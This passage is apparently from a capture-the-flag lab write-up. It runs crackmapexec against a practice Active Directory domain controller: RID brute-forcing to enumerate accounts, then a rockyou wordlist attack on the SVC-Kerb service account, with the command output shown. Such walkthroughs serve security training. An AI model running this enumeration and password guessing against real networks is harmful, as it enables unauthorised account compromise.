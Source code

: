 ```text
┌──(root💀kali)-[~/thm/ustoun]
└─# crackmapexec smb ustoun.local -u "pencer" -p "" --rid-brute
SMB         10.10.69.80     445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:ustoun.local) (signing:True) (SMBv1:False)
SMB         10.10.69.80     445    DC               [+] ustoun.local\pencer: 
SMB         10.10.69.80     445    DC               [+] Brute forcing RIDs
SMB         10.10.69.80     445    DC               498: DC01\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.69.80     445    DC               500: DC01\Administrator (SidTypeUser)
SMB         10.10.69.80     445    DC               501: DC01\Guest (SidTypeUser)
SMB         10.10.69.80     445    DC               502: DC01\krbtgt (SidTypeUser)
SMB         10.10.69.80     445    DC               512: DC01\Domain Admins (SidTypeGroup)
SMB         10.10.69.80     445    DC               513: DC01\Domain Users (SidTypeGroup)
SMB         10.10.69.80     445    DC               514: DC01\Domain Guests (SidTypeGroup)
SMB         10.10.69.80     445    DC               515: DC01\Domain Computers (SidTypeGroup)
SMB         10.10.69.80     445    DC               516: DC01\Domain Controllers (SidTypeGroup)
SMB         10.10.69.80     445    DC               517: DC01\Cert Publishers (SidTypeAlias)
SMB         10.10.69.80     445    DC               518: DC01\Schema Admins (SidTypeGroup)
SMB         10.10.69.80     445    DC               519: DC01\Enterprise Admins (SidTypeGroup)
SMB         10.10.69.80     445    DC               520: DC01\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.69.80     445    DC               521: DC01\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.69.80     445    DC               522: DC01\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.69.80     445    DC               525: DC01\Protected Users (SidTypeGroup)
SMB         10.10.69.80     445    DC               526: DC01\Key Admins (SidTypeGroup)
SMB         10.10.69.80     445    DC               527: DC01\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.69.80     445    DC               553: DC01\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.69.80     445    DC               571: DC01\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.69.80     445    DC               572: DC01\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.69.80     445    DC               1000: DC01\DC$ (SidTypeUser)
SMB         10.10.69.80     445    DC               1101: DC01\DnsAdmins (SidTypeAlias)
SMB         10.10.69.80     445    DC               1102: DC01\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.69.80     445    DC               1112: DC01\SVC-Kerb (SidTypeUser)
SMB         10.10.69.80     445    DC               1114: DC01\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
```

We get a list of SIDs from the DC. Anything above 1000 is interesting as they are not default or builtin, see [this](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/81d92bba-d22b-4a8c-908a-554ab29148ab) Microsoft article for some information.

From above we see a user called SVC-Kerb, which sounds suspiciously like a service account. Let's try and find it's password:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# crackmapexec smb ustoun.local -u "SVC-Kerb" -p /usr/share/wordlists/rockyou.txt 
SMB         10.10.69.80     445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:ustoun.local) (signing:True) (SMBv1:False)
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:i<3ruby STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:123456 STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:12345 STATUS_LOGON_FAILURE 
<SNIP>
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:123123 STATUS_LOGON_FAILURE 
SMB         10.10.69.80     445    DC               [-] ustoun.local\SVC-Kerb:football STATUS_LOGON_FAILURE 
```